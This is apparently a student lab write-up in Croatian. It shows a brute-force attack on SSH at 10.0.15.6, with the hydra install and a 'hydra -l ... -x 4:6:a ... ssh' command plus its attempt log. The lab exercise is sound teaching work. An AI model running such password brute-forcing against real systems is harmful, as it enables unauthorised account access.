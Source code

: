 Vidljivo je da je na mreži aktivno 13 *host*-ova, koji koriste TCP protokol.

Specifično napadamo ssh, odnosno *secure shell*, kriptografski mrežni protokol za operiranje mrežnim servisima na siguran način preko neosigurane mreže.

Pokušaj otvaranja *remote shell*-a:

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507/ab$ ssh bartulovic_antonia@10.0.15.6
The authenticity of host '10.0.15.6 (10.0.15.6)' can't be established.
ECDSA key fingerprint is SHA256:u4rEaCKzOum3w9z1y+9B+DW/uDhp020DQXH4Sso12ns.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.15.6' (ECDSA) to the list of known hosts.
bartulovic_antonia@10.0.15.6's password:
```

Nažalost, ne znamo šifru. Zato ćemo je pokušati saznati!

Napad izvršavamo koristeći ***hydra*** alat, koji, naravno, prvo treba instalirati:

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507/ab$ sudo apt-get install hydra-gtk
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
.......
```

Pošto znamo da se šifra sastoji isključivo od malih slova engleske abecede te da ima između 4 i 6 znakova, možemo procijeniti *password space* i okvirno zaključiti koliko bi vremena trebalo za otkriti šifru na ovaj način:

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507/ab$ hydra -l bartulovic_antonia -x 4:6:a 10.0.15.6 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:15:36
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.6:22/
[ATTEMPT] target 10.0.15.6 - login "bartulovic_antonia" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartulovic_antonia" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartulovic_antonia" - pass "aaac" - 3 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartulovic_antonia" - pass "aaad" - 4 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.6 - login "bartulovic_antonia" - pass "aaae" - 5 of 321254128 [child 0] (0/0)
......
```
